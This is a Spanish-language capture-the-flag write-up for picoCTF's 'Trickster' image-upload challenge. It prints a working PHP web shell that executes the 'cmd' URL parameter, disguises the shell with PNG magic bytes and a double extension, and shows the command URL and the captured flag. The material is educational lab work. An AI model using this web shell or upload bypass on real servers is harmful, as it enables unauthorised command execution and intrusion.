 
## Descripción

I found a web app that can help process images: PNG images only!

Additional details will be available after launching your challenge instance.
## Solución 

Nos encontramos en una pagina que solo permite la subida de imágenes PNG, para resolver este reto requerimos subir un archivo php que nos permita ejecutar comandos dentro del sistema.

Primero creamos un archivo php que evada la verificación de la extension .png y la validación de los magic bytes.

~~~
srriv@LAPTOP-7DDM83G8:~/SRSS/tricksterweb4$ cat webshell.php
<?php
if (isset($_GET['cmd'])) {
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
}
?>
srriv@LAPTOP-7DDM83G8:~/SRSS/tricksterweb4$ cp webshell.php webshell.php.png
srriv@LAPTOP-7DDM83G8:~/SRSS/tricksterweb4$ ls
webshell.php  webshell.php.png
srriv@LAPTOP-7DDM83G8:~/SRSS/tricksterweb4$ nano webshell.php.png
srriv@LAPTOP-7DDM83G8:~/SRSS/tricksterweb4$ cat webshell.php.png
PNG
<?php
if (isset($_GET['cmd'])) {
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
}
?>
srriv@LAPTOP-7DDM83G8:~/SRSS/tricksterweb4$ xxd webshell.php.png
00000000: 504e 470a 3c3f 7068 700a 6966 2028 6973  PNG.<?php.if (is
00000010: 7365 7428 245f 4745 545b 2763 6d64 275d  set($_GET['cmd']
00000020: 2929 207b 0a20 2020 2065 6368 6f20 223c  )) {.    echo "<
00000030: 7072 653e 223b 0a20 2020 2073 7973 7465  pre>";.    syste
00000040: 6d28 245f 4745 545b 2763 6d64 275d 293b  m($_GET['cmd']);
00000050: 0a20 2020 2065 6368 6f20 223c 2f70 7265  .    echo "</pre
00000060: 3e22 3b0a 7d0a 3f3e 0a                   >";.}.?>.
srriv@LAPTOP-7DDM83G8:~/SRSS/tricksterweb4$ mv webshell.php.png webshell.png.php
srriv@LAPTOP-7DDM83G8:~/SRSS/tricksterweb4$ ls
webshell.php  webshell.png.php
srriv@LAPTOP-7DDM83G8:~/SRSS/tricksterweb4$
~~~

Una vez en el sitio podemos ejecutar comandos mediante ese archivo subido a la pagina, donde visualizaremos en que directorio estamos y que otros archivos existen. En este caso la bandera se encontraba haciendo un cat en un archivo fuera de nuestro directorio de uploads.
~~~
http://atlas.picoctf.net:62079/uploads/webshell.png.php?cmd=cat%20../MQZWCYZWGI2WE.txt
~~~

~~~
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_d3ac625b}
~~~
## Notas adicionales 
## Referencias

